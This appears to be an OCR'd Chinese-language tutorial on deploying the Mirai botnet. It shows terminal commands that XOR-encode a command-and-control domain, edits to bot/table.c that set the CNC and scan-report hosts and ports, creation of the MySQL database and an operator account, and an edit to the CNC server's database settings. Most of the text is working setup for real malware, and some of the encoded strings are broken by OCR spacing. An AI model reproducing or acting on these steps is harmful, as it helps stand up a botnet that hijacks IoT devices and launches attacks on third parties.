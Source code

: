 ```
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/mirai/tools# ./enc.out string report.test.me
XOR'ing 15 bytes of data...
\x50\x47\x52\x4D\x50\x56\x0C\x56\x47\x51\x56\x0C\x4F\x47\x22
```
```
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/mirai/tools# vim ../bot/table.c
```
修改第18行和21行
```
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x56\x47\x51\x56\x0C\x4F\x4    7\x22", 30); // cnc.changeme.com
add_entry(TABLE_CNC_PORT, "\x22\x35", 2);   // 23

add_entry(TABLE_SCAN_CB_DOMAIN, "\x50\x47\x52\x4D\x50\x56\x0C\x56\x47\x5    1\x56\x0C\x4F\x47\x22", 29); // report.changeme.com       
add_entry(TABLE_SCAN_CB_PORT, "\x99\xC7", 2);         // 48101
```
配置数据库文件,修改db.sql文件<br>
```
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/mirai/tools# cd ../../scripts/
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/scripts# vim db.sql

CREATE DATABASE mirai;
use mirai;
CREATE TABLE `history` (
```
修改完成之后启动数据库，将db.sql文件导入到数据库中<br>
这里我的数据库用户为`root`，密码为`123456`
```
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/scripts# service mysql start
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/scripts# cat db.sql | mysql -uroot -p
Enter password: 123456
```
在数据库中添加mirai用户,这里账号密码可以随意设置<br>
用户账号:mirai-user
用户密码:mirai-pass
```
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/scripts# mysql -uroot -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 5
Server version: 5.7.29-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use mirai;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
Query OK, 1 row affected (0.00 sec)

mysql> exit
```
修改mirai/cnc/main.go中的数据库常量
```
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/scripts# vim ../mirai/cnc/main.go
将数据库密码修改为当前数据库密码
```